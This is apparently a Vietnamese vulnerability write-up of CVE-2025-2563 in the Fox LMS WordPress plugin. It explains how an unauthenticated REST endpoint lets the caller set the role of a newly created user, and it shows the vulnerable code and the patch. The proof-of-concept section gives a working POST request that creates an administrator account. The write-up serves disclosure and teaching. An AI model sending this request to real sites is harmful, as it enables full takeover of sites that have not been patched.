


<!--more-->

## CVE & Basic Info
Plugin **The Fox LMS – WordPress LMS Plugin** dành cho **WordPress** tồn tại lỗ hổng **leo thang đặc quyền** trong tất cả các **phiên bản đến và bao gồm 1.0.5.1**. Nguyên nhân là do plugin **không kiểm tra và xác thực đúng tham số “role”** khi **tạo người dùng mới** thông qua **REST API endpoint `/fox-lms/v1/payments/create-order`**. Điều này cho phép **kẻ tấn công không cần xác thực** có thể **tạo tài khoản người dùng mới với bất kỳ vai trò nào, bao gồm cả quản trị viên**, dẫn đến **toàn bộ website có thể bị chiếm quyền kiểm soát**.

* **CVE ID**: [CVE-2025-2563](https://www.cve.org/CVERecord?id=CVE-2025-2563)
* **Vulnerability Type**: Privilege Escalation
* **Affected Versions**: 1.0.4.7-1.0.5.1
* **Patched Versions**: 1.0.5.2
* **CVSS severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Fox LMS Plugin](https://wordpress.org/plugins/fox-lms/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Fox LMS**:  
    * `1.0.5.1` – **vulnerable**  
    * `1.0.5.3` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

> [!NOTE] Mặc dù thông tin công bố cho biết lỗ hổng đã được vá trong phiên bản **`1.0.5.2`**, nhưng trên thực tế bản vá chỉ được áp dụng đầy đủ từ phiên bản **`1.0.5.3`**.

## Analysis 
Plugin đã đăng ký một REST API như sau:

```php {title="Payments.php v1.0.5.1" data-open=true hl_lines=[]}
register_rest_route(
    self::getNamespace(), // fox-lms/v1
    $this->getRoute('create-order'), // payments/create-order
    [
        'methods'             => WP_REST_Server::CREATABLE, // POST
        'callback'            => [$this, 'createOrder'],
        'permission_callback' => '__return_true',
    ]
);
```

Với cấu hình này, endpoint được public tại địa chỉ:

```
/wp-json/fox-lms/v1/payments/create-order
```

Khi có một request gửi đến endpoint trên bằng phương thức POST, WordPress sẽ tự động gọi hàm `createOrder()`. Do thiết lập `'permission_callback' => '__return_true'`, nên endpoint này không yêu cầu kiểm tra quyền truy cập. Điều đó đồng nghĩa với việc **bất kỳ người dùng nào, kể cả người chưa đăng nhập, đều có thể truy cập và thực thi API này mà không gặp bất kỳ rào cản phân quyền nào**.

```php {title="Payments.php v1.0.5.1" data-open=true hl_lines=[]}
public function createOrder(WP_REST_Request $request): WP_REST_Response
{
    $defaults = [
        'courseId'   => 0,
        'role'       => 'subscriber',
        ...
    ];
    ...
    $params = wp_parse_args($request->get_params(), $defaults);

    if (absint($params['courseId']) <= 0) {
        return (new Response() )->respond(
            [
                'message' => Fox_Lms_Checkout_Public::getPaymentError(
                    $this->errorTitle,
                    __('Course not found', 'fox-lms')
                ),
            ],
            404
        );
    }
    $username = sanitize_user($params['username']);
    $email    = sanitize_email($params['email']);
    ...
    try {
        $currency = Payment::instance()->getCurrencyCode();

        $course         = get_post($params['courseId']);
        $course_info = Fox_Lms_Data::get_course_by_post_id( $params['courseId']);
            
        $settings = Fox_Lms_Data::get_course_validated_data_from_array( $course_info,[]);
        $price = Fox_Lms_Data::fox_lms_get_course_price($settings);
    
        $courseSettings = [
            'priceType'  => ! empty($settings['fox_lms_payment_type']) ? $settings['fox_lms_payment_type'] : 'free',
            'price' => $price,
        ];
        // $courseSettings = SettingsManager::get($course->ID);
        $price          = floatval($courseSettings['price']);
        ...

        // If price is zero or less, treat as free order: create completed order and enroll user immediately.
        if ($price <= 0) {
            global $wpdb;

            $userId = 0;
            if (is_user_logged_in()) {
                $userId = get_current_user_id();
            } else {
                $userData = array(
                    'first_name' => sanitize_text_field($params['first_name']),
                    'last_name'  => sanitize_text_field($params['last_name']),
                    'user_login' => sanitize_user($params['username']),
                    'user_email' => sanitize_email($params['email']),
                    'user_pass'  => sanitize_text_field($params['password']),
                    'role'       => sanitize_text_field($params['role']),
                );

                $userId = wp_insert_user($userData);
                ...
            }
        }
        ...
    }
}
```

Hàm `createOrder()` nhận dữ liệu từ request và gán giá trị mặc định, trong đó **`role` mặc định là `subscriber`**. Tuy nhiên, toàn bộ tham số từ phía người dùng gửi lên được trộn trực tiếp vào `$params` thông qua `wp_parse_args()` mà **không có bước kiểm tra hay giới hạn giá trị hợp lệ cho `role`**.

Khi khóa học có giá **bằng 0 hoặc miễn phí**, hệ thống sẽ tự động tạo tài khoản người dùng mới nếu người gọi API chưa đăng nhập. Dữ liệu người dùng được lấy trực tiếp từ request, bao gồm:

```php
'role' => sanitize_text_field($params['role']),
```

Điều này có nghĩa là kẻ tấn công chỉ cần gửi một request POST tới endpoint `/wp-json/fox-lms/v1/payments/create-order` và truyền vào giá trị `role` tùy ý (ví dụ: `administrator`). Vì endpoint này **không kiểm tra quyền truy cập** và hàm cũng **không validate giá trị role**, tài khoản mới sẽ được tạo với quyền tương ứng.

Kết quả là kẻ tấn công không cần đăng nhập vẫn có thể **tạo tài khoản với quyền quản trị**, dẫn đến **leo thang đặc quyền và chiếm quyền kiểm soát toàn bộ website**.

Bản vá **`v1.0.5.3`** đã khắc phục lỗ hổng bằng cách **hardcode giá trị `role` thành `subscriber`** khi tạo tài khoản người dùng mới, thay vì lấy trực tiếp từ dữ liệu request. Điều này giúp ngăn chặn việc kẻ tấn công truyền vào các giá trị role tùy ý để leo thang đặc quyền.

```php
$userData = array(
    'first_name' => sanitize_text_field($params['first_name']),
    'last_name'  => sanitize_text_field($params['last_name']),
    'user_login' => sanitize_user($params['username']),
    'user_email' => sanitize_email($params['email']),
    'user_pass'  => sanitize_text_field($params['password']),
    'role'       => 'subscriber',
);
```

## Flow


## Proof of Concept (PoC)
1. Gửi request tạo user:

```http
POST /wp-json/fox-lms/v1/payments/create-order HTTP/1.1
Host: localhost

role=administrator&first_name=hacker&last_name=hacker&username=hacker&email=hacker@gmail.com&courseId=course_id
```

**Result**:



2. Login với user vừa tạo.

## Conclusion

Lỗ hổng **CVE-2025-2563** xuất phát từ việc **REST API được public không kiểm soát quyền truy cập** và **tham số `role` không được validate**, cho phép attacker chưa xác thực tạo tài khoản với quyền tùy ý, bao gồm **Administrator**. Mặc dù công bố cho rằng đã vá ở `1.0.5.2`, nhưng thực tế bản vá chỉ hoàn chỉnh từ **`1.0.5.3`** khi `role` được hardcode về `subscriber`. Người dùng cần cập nhật plugin và rà soát lại các tài khoản đã tồn tại.

## Key Takeaways

* Không expose API nhạy cảm khi chưa kiểm soát quyền.
* Không tin tưởng dữ liệu từ client, đặc biệt là tham số phân quyền.
* Luôn validate và whitelist input.
* Kiểm tra thực tế bản vá, không chỉ dựa vào thông báo.

## References
[Privilege Escalation](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress Fox LMS Plugin 1.0.4.7-1.0.5.1 is vulnerable to a high priority Privilege Escalation](https://patchstack.com/database/wordpress/plugin/fox-lms/vulnerability/wordpress-fox-lms-plugin-1-0-4-7-1-0-5-1-unauthenticated-privilege-escalation-vulnerability) 